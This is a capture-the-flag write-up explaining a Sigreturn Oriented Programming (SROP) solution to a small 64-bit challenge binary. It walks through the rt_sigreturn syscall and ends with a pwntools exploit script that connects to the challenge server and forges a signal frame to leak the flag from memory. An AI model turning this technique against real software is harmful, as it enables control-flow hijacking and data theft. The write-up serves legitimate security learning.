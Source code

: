 The task consists of one [64-bit binary](player_bin). Let's examine what's under the hood of this challenge.

<p align="center">
  <img src="screens/code.png">
</p>

First of all, look at the ```0x10000023``` address. Flag for this challenge is placed in this address on the CTF server. So, obviously that we should just print it. Okay, let's examine the code.

There is not so much code and everything is pretty straight. In the first syscall at ```0x100000b``` we input string into ```rsi``` register. After that we prepare registers for the second syscall. If we look at the table of syscalls for [x86_64 architecture](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) then we find out that this syscall is [```sys_rt_sigreturn```](https://linux.die.net/man/2/rt_sigreturn).

For me this doesn't tell much, so let's run the binary and see what this thing do. I input ```'A' * 12``` and stopped before the second syscall. The state of our program looks like that:

<p align="center">
  <img src="screens/before-signal.png">
</p>

Each register has rational and understandable value. Pay your attention to the values laying on the stack. Now, let's execute this ```sys_rt_sigreturn```:

<p align="center">
  <img src="screens/after-signal.png">
</p>

You can think "What the heck?", but look at the stack before executing the syscall and you find out that all registers are set up with the values from the stack. This named a stack frame. According to the Linux man page, ```sys_rt_sigreturn``` function returns from signal handler and cleanup stack frame. So, if we input a pretty big string then we can control stack frame and hence overwrite all registers, sweet. This technique called **SROP** -- Sigreturn Oriented Programming. You can read about it on Google :3

What's next? We can control all registers including ```rip```. The idea is pretty simple: To change ```rip``` to syscall address (doesn't matter which of the two) and set all registers to write the flag into ```stdout```. There are two ways to do this:
- Using ```pwntools``` and its built-in class for Sigreturn frames. Then set needed registers with desirable values and input them.
- And more complex way: finding the order of registers in a stack frame and create this frame by yourself.

I chose the first way, but you can improve your skills by creating a stack frame by yourself (I did it too).

[Exploit](exploit.py) that creates the stack frame and input it is placed below:

```python
import struct

from pwn import *


def main():
    context.clear()
    context.arch = "amd64"

    rm = remote('163.172.176.29', 9034)
    
    frame = SigreturnFrame()
    frame.rax = 0x1
    frame.rdi = 0x1
    frame.rsi = struct.unpack('Q', '\x23\x00\x00\x10\x00\x00\x00\x00')[0]
    frame.rdx = 0x30
    frame.rip = struct.unpack('Q', '\x12\x00\x00\x10\x00\x00\x00\x00')[0]


    rm.send(bytes(frame))
    rm.interactive()


if __name__ == '__main__':
    main()

    
```